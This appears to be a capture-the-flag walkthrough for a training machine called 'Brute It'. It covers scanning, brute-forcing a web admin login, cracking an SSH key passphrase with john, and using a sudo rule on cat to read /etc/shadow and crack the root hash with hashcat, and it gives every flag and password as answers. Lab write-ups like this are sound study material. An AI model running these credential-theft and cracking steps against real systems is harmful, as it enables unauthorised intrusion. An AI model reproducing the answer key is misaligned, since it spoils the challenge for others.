







# Brute It

* IP = 10.10.44.136

## Tasks/Questions:

### Task 1(Deploy):

1. Deploy the machine<br>
*No answers needed*

### Task 2(Reconnaissance):

* Nmap Scan Report:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* GoBuster Scan Report:
```bash
/admin (Status: 301)
```
1. How many ports are open?<br>

**Ans-2**

2. What version of SSH is running?<br>

**Ans-OpenSSH 7.6p1**

3. What version of Apache is running?<br>

**Ans-2.4.29**

4. Which Linux distribution is running?<br>

**Ans-Ubuntu**

5. What is the hidden directory?<br>

**Ans-/admin**

### Task 3(Getting a shell):

* We get a login page at http://IP/admin:<br>



* Using a python script to brute force with a common wordlist(for ex: rockyou.txt)
* While checking the source, we found some strange comments:<br>

* So, the username is probably *admin* and *john* maybe a username in the server??!🤔<br>


1. What is the user:password of the admin panel?<br>

**Ans-admin:xavier**

* Next we login with those credentials and come to this page:<br>

* Download the ssh private key and extract the private key passphrase hash:
* Using <a href="https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py">ssh2john</a> to extract the ssh passphrase hash:
```bash
python3 ssh2john.py id_rsa > rsa.hash
```
* Crack the hash with:
```
john rsa.hash -wordlist=rockyou.txt -format=ssh
```

2. What is John's RSA Private Key passphrase?<br>

**Ans-rockinroll**

* Login to the *SSH* server with:
```bash
chmod 600 id_rsa
ssh -i id_rsa john@IP
```
* Use the above password<br>


3. user.txt<br>

**Ans-THM{a_password_is_not_a_barrier}**

4. Web flag<br>

**Ans-THM{brut3_f0rce_is_e4sy}**

### Task 4(Privilege Escalation):

* Checking the sudo group:
```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
* Since /bin/cat is set to NOPASSWD, we can view both the root password hash from **/etc/shadow** and the flag from **/root/root.txt** too.


* Copy the hash and crack with *hashcat*
```bash
hashcat -m1800 -a0 hash.txt rockyou.txt -O
```

* Escalate privileges with:

```bash
su root
```

1. What is the root's password?<br>

**Ans-football**

```bash
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

2. Root.txt<br>

**Ans-THM{pr1v1l3g3_3sc4l4t10n}**
